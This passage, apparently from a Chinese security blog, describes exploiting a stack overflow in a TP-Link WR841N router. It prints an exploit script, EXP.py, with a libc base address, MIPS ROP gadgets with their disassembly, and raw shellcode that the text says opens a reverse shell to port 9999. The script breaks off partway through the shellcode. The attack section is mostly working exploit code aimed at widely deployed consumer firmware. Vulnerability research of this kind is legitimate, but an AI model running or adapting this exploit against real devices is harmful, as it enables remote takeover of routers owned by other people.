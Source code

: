 **shellcode(连接本地9999端口)**

因为我们的数据\c3会被转义，一种方式是指令替换，另一种方式是指令逃逸。这里直接参考了师傅们的shellcode[参考地址](http://www.tearorca.top/index.php/2020/04/21/cve-2020-8423tplink-wr841n-%E8%B7%AF%E7%94%B1%E5%99%A8%E6%A0%88%E6%BA%A2%E5%87%BA)。

**Exploit**

布置好gadgets和shellcode，最后shellcode的内容是反弹到本地的9999端口，挂好httpd服务，获取目录地址和cookie作为exp的参数运行，利用成功只需在本地用nc连接一下即可。

[![](https://p3.ssl.qhimg.com/t018d50961461f026ee.png)](https://p3.ssl.qhimg.com/t018d50961461f026ee.png)

**EXP.py**

```
#!/usr/bin/python
from pwn import *
import requests
import socket
import socks
import urllib
import struct

default_socket = socket.socket
socket.socket = socks.socksocket
session = requests.Session()
session.verify = False
context.endian = 'big' 
libc_base=0x77f39000 
sleep =0x53CA0 #end 00053ECC

#gadgets
g1=0x000E204 #0x77F47204
#LOAD:0000E204                 move    $t9, $s1
#LOAD:0000E208                 jalr    $t9 ; sysconf
#LOAD:0000E20C                 li      $a0, 3
g2=0x00037470
#LOAD:00037470                 move    $t9, $s2
#LOAD:00037474                 lw      $ra, 0x28+var_4($sp)
#LOAD:00037478                 lw      $s2, 0x28+var_8($sp)
#LOAD:0003747C                 lw      $s1, 0x28+var_C($sp)
#LOAD:00037480                 lw      $s0, 0x28+var_10($sp)
#LOAD:00037484
#LOAD:00037484 loc_37484:
#LOAD:00037484                 jr      $t9 ; xdr_opaque_auth
#LOAD:00037488                 addiu   $sp, 0x28
g3=0x0000E904 #0x77f47904
#LOAD:0000E904                 addiu   $a1, $sp, 0x168+var_150
#LOAD:0000E908                 move    $t9, $s1
#LOAD:0000E90C                 jalr    $t9 ; stat64
#LOAD:0000E910                 addiu   $a0, (aErrorNetrcFile+0x28 - 0x60000)
g4=0x00374D8
#LOAD:000374D8                 move    $t9, $a1
#LOAD:000374DC                 sw      $v0, 0x4C($a0)
#LOAD:000374E0                 move    $a1, $a2
#LOAD:000374E4                 jr      $t9
#LOAD:000374E8                 addiu   $a0, 0x4C  # 'L'

shellcode="\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28\x27\x28\x06\xff\xff"
shellcode+="\x24\x02\x10\x57\x01\x01\x01\x0c\xaf\xa2\xff\xff\x8f\xa4\xff\xff"
shellcode+="\x34\x0e\xff\xff\x01\xc0\x70\x27\xaf\xae\xff\xf6\xaf\xae\xff\xf4"
shellcode+="\x34\x0f\xd8\xf0\x01\xe0\x78\x27\xaf\xaf\xff\xf2\x34\x0f\xff\xfd"
shellcode+="\x01\xe0\x78\x27\xaf\xaf\xff\xf0\x27\xa5\xff\xf2\x24\x0f\xff\xef"
shellcode+="\x01\xe0\x30\x27\x24\x02\x10\x4a\x01\x01\x01\x0c\x8f\xa4\xff\xff"
shellcode+="\x28\x05\xff\xff\x24\x02\x0f\xdf\x01\x01\x01\x0c\x2c\x05\xff\xff"
```